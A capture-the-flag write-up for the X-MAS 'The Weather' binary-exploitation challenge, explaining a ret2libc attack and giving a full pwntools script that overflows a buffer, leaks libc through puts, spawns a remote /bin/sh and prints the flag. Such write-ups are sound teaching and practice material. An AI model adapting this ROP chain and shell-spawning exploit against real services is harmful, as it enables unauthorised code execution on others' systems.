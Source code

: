 [../](../../)

# The Weather

## Binary Exploitation

> Software is like the weather, it's always changing!

## Solution

When connecting to the service, you get a base64 encoded binary that is executed and needs to be exploited. Every time you connect to the service, you get a new binary and the connection is being terminated after about 40 seconds, so you need to automate as much as possible.

First, I dumped some of the binaries and exploited them locally using `pwntools`. The binaries have no PIE and no stack canaries enabled, only NX is enabled, and they have a buffer overflow vulnerability what allows us to execute ROP chains. The exploit script finds appropriate ROP gadgets and overflows the buffer to set up a ROP chain to leak the libc address of `puts` and returns to the `main` function again for another input of a ROP chain to execute `system` with `/bin/sh`.

When comparing the binaries, the only things that change are the vulnerable buffer size and the address of the `main` function, that can not simply read out because the binaries are stripped. Since I was not aware of a better way, I quickly opened the binary in `Ghidra` and looked up these two unknown variables, the buffer size and the address of the `main` function, and inserted them to the exploit script in time and successfully got the shell.

Exploit script:

```python
from pwn import *
import base64
from os import path

p = remote('challs.xmas.htsp.ro', 12002)
print p.recvuntil('b\'')

binary = p.recvuntil('\'')

with open('binary', 'wb') as file:
	file.write(base64.b64decode(binary))

libc = ELF('libc-2.27.so')
e = ELF('binary')
rop = ROP(e)

POP_RDI_RET = rop.find_gadget(['pop rdi', 'ret'])[0]
RET = rop.find_gadget(['ret'])[0]

while True:
	if path.exists('vars'):
		break
	sleep(0.5)

with open('vars', 'r') as file:
	data = file.read().split(';')
	size = int(data[0])
	main = int(data[1], 16)

# p = process('binary')
p.sendlineafter('? ', 'A' * size + p64(0x0) + p64(POP_RDI_RET) + p64(e.got['puts']) + p64(e.plt['puts']) + p64(main))
print p.recvline()
print p.recvline()

puts = u64(p.recvline()[:-1] + '\x00\x00')

log.info('puts: {}'.format(hex(puts)))

libc_base = puts - libc.symbols['puts']
log.info('libc_base: {}'.format(hex(libc_base)))

system = libc_base + libc.symbols['system']
log.info('system: {}'.format(hex(system)))

sh = libc_base + next(libc.search('/bin/sh'))
log.info('/bin/sh: {}'.format(hex(sh)))

p.sendlineafter('? ', 'A' * size + p64(0x0) + p64(RET) + p64(POP_RDI_RET) + p64(sh) + p64(system))
p.interactive()
```

flag: `X-MAS{0h_1_7h1nk_y0u_4r3_4_r0b07}`